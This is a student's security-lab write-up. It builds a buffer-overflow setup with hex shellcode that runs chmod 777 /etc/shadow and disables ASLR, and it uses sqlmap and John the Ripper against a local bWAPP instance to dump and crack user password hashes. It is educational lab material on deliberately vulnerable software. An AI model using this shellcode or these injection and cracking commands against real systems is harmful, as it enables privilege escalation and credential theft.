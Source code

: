 # 22110088 - Bui Tho Anh Tu

## Task 1: Software buffer overflow attack
Given a vulnerable C program 
```c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```c
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
Compile the shellcode:
```bash
gcc -g -fno-stack-protector -z execstack -o shellcode shellcode.c -mpreferred-stack-boundary=2
```
Compile the C program:
```bash
gcc -g -fno-stack-protector -z execstack -o vulnerability vulnerability.c -mpreferred-stack-boundary=2
```
Make the shellcode executed as root:
```bash
sudo chown root shellcode
sudo chmod 4777 shellcode
```
Disable the Address Space Layout Randomization (ASLR)
```bash
sudo sysctl -w kernel.randomize_va_space=0
```

Create a symbolic link to /bin/sh
```bash
sudo ln -sf /bin/zsh /bin/sh
```

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
Select SQL Injection hack
![Select sql injection](https://github.com/user-attachments/assets/0c217fd8-30ad-4f84-8320-73229277a174)

Get the URL at the page
![Get the URL](https://github.com/user-attachments/assets/008a3c9e-32fb-45ff-9369-d9f863d58934)

Get the page cookies through Chrome DevTools
![Get cookies thourgh Chrom Devtool](https://github.com/user-attachments/assets/840826ad-4439-42b3-b5bd-d72fcd661fb5)

Find the available databases with the cookies
```bash
 sqlmap -u "http://localhost:8025/sqli_1.php" --cookie="PHPSESSID=ldg4i48a7bhj3iiagri8s3frs6; security_level=0" --forms --dbs 
```
![Available DBs](https://github.com/user-attachments/assets/c6607de6-4b69-43df-af84-d7d0d0fbc921)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
Get the available tables in the database
```bash
 sqlmap -u "http://localhost:8025/sqli_1.php" --cookie="PHPSESSID=ldg4i48a7bhj3iiagri8s3frs6; security_level=0" --forms --tables
```
![Available tables](https://github.com/user-attachments/assets/a13b0d64-ded1-4dbc-8a82-72597e3622f4)

[40 tables]
+----------------------------------------------+
| CHARACTER_SETS                               |
| COLLATIONS                                   |
| COLLATION_CHARACTER_SET_APPLICABILITY        |
| COLUMN_PRIVILEGES                            |
| FILES                                        |
| GLOBAL_STATUS                                |
| GLOBAL_VARIABLES                             |
| INNODB_BUFFER_PAGE                           |
| INNODB_BUFFER_PAGE_LRU                       |
| INNODB_BUFFER_POOL_STATS                     |
| INNODB_CMP                                   |
| INNODB_CMPMEM                                |
| INNODB_CMPMEM_RESET                          |
| INNODB_CMP_RESET                             |
| INNODB_LOCKS                                 |
| INNODB_LOCK_WAITS                            |
| INNODB_TRX                                   |
| KEY_COLUMN_USAGE                             |
| PARAMETERS                                   |
| PROFILING                                    |
| REFERENTIAL_CONSTRAINTS                      |
| ROUTINES                                     |
| SCHEMATA                                     |
| SCHEMA_PRIVILEGES                            |
| SESSION_STATUS                               |
| SESSION_VARIABLES                            |
| STATISTICS                                   |
| TABLESPACES                                  |
| TABLE_CONSTRAINTS                            |
| TABLE_PRIVILEGES                             |
| USER_PRIVILEGES                              |
| VIEWS                                        |
| COLUMNS                                      |
| ENGINES                                      |
| EVENTS                                       |
| PARTITIONS                                   |
| PLUGINS                                      |
| PROCESSLIST                                  |
| TABLES                                       |
| TRIGGERS                                     |
+----------------------------------------------+

Database: bWAPP
[5 tables]
+----------------------------------------------+
| blog                                         |
| heroes                                       |
| movies                                       |
| users                                        |
| visitors                                     |
+----------------------------------------------+

Database: mysql
[24 tables]
+----------------------------------------------+
| event                                        |
| host                                         |
| plugin                                       |
| user                                         |
| columns_priv                                 |
| db                                           |
| func                                         |
| general_log                                  |
| help_category                                |
| help_keyword                                 |
| help_relation                                |
| help_topic                                   |
| ndb_binlog_index                             |
| proc                                         |
| procs_priv                                   |
| proxies_priv                                 |
| servers                                      |
| slow_log                                     |
| tables_priv                                  |
| time_zone                                    |
| time_zone_leap_second                        |
| time_zone_name                               |
| time_zone_transition                         |
| time_zone_transition_type                    |
+----------------------------------------------+

Database: performance_schema
[17 tables]
+----------------------------------------------+
| cond_instances                               |
| events_waits_current                         |
| events_waits_history                         |
| events_waits_history_long                    |
| events_waits_summary_by_instance             |
| events_waits_summary_by_thread_by_event_name |
| events_waits_summary_global_by_event_name    |
| file_instances                               |
| file_summary_by_event_name                   |
| file_summary_by_instance                     |
| mutex_instances                              |
| performance_timers                           |
| rwlock_instances                             |
| setup_consumers                              |
| setup_instruments                            |
| setup_timers                                 |
| threads                                      |
+----------------------------------------------+

Get the columns in users table in bWAPP database
```bash
sqlmap -u "http://localhost:8025/sqli_1.php" --cookie="PHPSESSID=ldg4i48a7bhj3iiagri8s3frs6; security_level=0" --forms -D bWAPP -T users --columns
```
![columns in users](https://github.com/user-attachments/assets/33feaf68-dce9-4390-b925-f38b33e26bee)

Get all users in users table in bWAPP database
```bash
sqlmap -u "http://localhost:8025/sqli_1.php" --cookie="PHPSESSID=ldg4i48a7bhj3iiagri8s3frs6; security_level=0" --forms -D bWAPP -T users --dump
```
![users info](https://github.com/user-attachments/assets/5a609702-ac37-4e04-adc0-7b2386d52871)
![users info 2](https://github.com/user-attachments/assets/49834e33-b153-4f75-bf7b-22f5b176f6d4)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
Extract the hashed password collected users from the previous question
```bash
Import-Csv "C:\Users\ADMIN\AppData\Local\sqlmap\output\localhost\dump\bWAPP\users.csv" | ForEach-Object { $_.'password' } | Out-File -FilePath "C:\Users\ADMIN\Downloads\passwords.txt"
```
Output
![hashed stored](https://github.com/user-attachments/assets/d6927cdf-e99f-4026-9d38-422ea894a01b)
![Output stored](https://github.com/user-attachments/assets/1cd28001-6256-47e6-944f-c218788ede24)

Remove the decrypted password from the file
Use John the Ripper to crack the password
```bash
.\john --format=Raw-SHA1 C:\Users\ADMIN\Downloads\passwords.txt
```
![cracked passwords using john](https://github.com/user-attachments/assets/e72e0f3f-b843-4b7f-8db7-906bf9c250a5)
